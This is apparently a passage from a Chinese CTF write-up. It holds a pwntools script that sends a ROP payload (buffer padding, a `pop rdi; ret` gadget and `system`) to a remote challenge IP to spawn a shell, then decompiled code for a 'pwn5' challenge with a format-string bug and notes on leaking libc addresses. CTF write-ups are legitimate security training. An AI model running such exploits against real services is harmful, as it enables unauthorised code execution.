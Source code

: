 得到 `pop rdi; ret` 的地址 `0x4007d3` 和 `$0` 的地址 `0x60111f`。

```python
from pwn import *

context(arch='amd64', os='linux')
p = remote('114.116.54.89', 10004)


payload = 'a'*0x18 + p64(0x4007d3) + p64(0x60111f) + p64(0x40075a)

p.recvline()
p.sendline(payload)

p.interactive()
```

## pwn5

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-20h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  memset(&s, 0, 0x20uLL);
  puts(&::s);
  read(0, &s, 8uLL);
  printf(&s, &s);
  puts(&s);
  puts(&s);
  puts(&s);
  puts(&byte_400978);
  sleep(1u);
  puts(asc_400998);
  read(0, &s, 0x40uLL);
  if (!strstr(&s, &needle) || !strstr(&s, &byte_4009BA) )
  {
    puts(&byte_4009C8);
    exit(0);
  }
  puts(&byte_4009F8);
  return 0;
}
```

注意到 `printf(&s, &s);`，说明这里有一个格式化字符串漏洞。通过 gdb 调试后发现，我们可以泄露 `__libc_start_main` 地址来得到 `system` 和 `/bin/sh` 的地址。
